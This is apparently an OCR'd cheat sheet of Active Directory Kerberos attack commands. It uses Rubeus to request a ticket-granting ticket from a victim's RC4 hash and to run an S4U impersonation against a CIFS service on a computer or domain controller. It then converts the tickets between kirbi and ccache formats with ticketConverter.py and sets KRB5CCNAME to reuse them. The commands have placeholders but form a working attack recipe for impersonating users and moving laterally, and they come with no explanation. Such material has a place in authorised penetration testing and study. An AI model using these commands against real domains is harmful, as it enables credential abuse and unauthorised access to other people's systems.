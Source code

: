 TGT with Rubeus
```powershell
.\Rubeus.exe asktgt /nowrap /user:{VICTIM} /rc4:
```

TGS with Rubeus
```powershell
.\Rubeus.exe s4u /self /nowrap /impersonateuser:{SOMEUSER} /altservice:"cifs/COMPUTER|DC" /ticket:TGT
```

RubeusToCcache
```
python3 rubeustoccache.py 
```

Export KRB5CCNAME
```bash
export KRB5CCNAME=
```

Ticket Converter
```bash
ticket=
# Windows -> UNIX
ticketConverter.py $ticket.kirbi $ticket.ccache

# UNIX -> Windows
ticketConverter.py $ticket.ccache $ticket.kirbi
```

